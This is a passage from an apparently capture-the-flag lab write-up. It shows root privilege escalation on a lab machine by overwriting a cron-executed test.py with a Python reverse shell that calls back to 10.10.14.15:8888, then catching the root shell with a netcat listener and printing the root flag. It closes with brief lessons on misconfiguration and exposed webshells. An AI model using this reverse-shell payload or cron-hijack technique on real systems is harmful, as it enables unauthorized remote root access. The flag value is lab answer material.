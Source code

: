 ```bash
cp test.py.1 test.py

# Check if overwritten
cat test.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.15”,8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);

# Chekcing onemore time, the file size is same .
ls -l
total 12
-rw-r--r-- 1 scriptmanager scriptmanager 226 Sep  4 07:50 test.py
-rw-r--r-- 1 scriptmanager scriptmanager 226 Sep  4 07:48 test.py.1
-rw-r--r-- 1 root          root           12 Sep  4 07:50 test.txt
```

Also start a listner on netcat on the port specified in test.py file.
and wait a minute for the cron job to be executed .
Notice the root shell(#) on netcat listner.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 8888   #Starting Netcat Listner on port we speified in test.py files
listening on [any] 8888 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.68] 33320
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

root flag:
```bash
#Reading the /root/root.txt flag
cat /root/root.txt
28975174abf7e96d935c3df1965881ca
```


## Learnings

1- Overly permissive misconfigurations should be looked for, here was scriptmanager user.

2- WebShell exposure to public even when not linked to webpage, should be avoided. We discovered this via gobuster.